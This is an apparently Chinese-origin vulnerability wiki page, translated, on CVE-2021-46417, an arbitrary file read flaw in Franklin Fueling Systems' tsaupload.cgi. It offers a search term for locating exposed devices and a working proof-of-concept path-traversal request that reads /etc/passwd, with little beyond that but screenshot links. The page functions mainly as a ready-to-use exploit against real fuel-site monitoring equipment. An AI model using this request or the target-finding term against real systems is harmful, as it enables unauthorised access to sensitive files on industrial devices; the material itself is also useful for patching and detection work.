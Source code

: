 # Franklin Fueling Systems tsaupload.cgi arbitrary file reading vulnerability CVE-2021-46417

## Vulnerability Description

Franklin Fueling Systems tsaupload.cgi There is a vulnerability to read arbitrary file. An attacker can obtain server-sensitive files through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Franklin Fueling Systems</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"Franklin Fueling Systems"</span>

## Vulnerability reappears

Main page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657420562693-75382d60-8299-4a3e-89b0-22a22a913500.png)

Verify POC

```php
/cgi-bin/tsaupload.cgi?file_name=../../../../../../etc/passwd&password=
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657420647065-c03ec27d-901d-4bec-9949-b269306f4252-20220710103840550.png)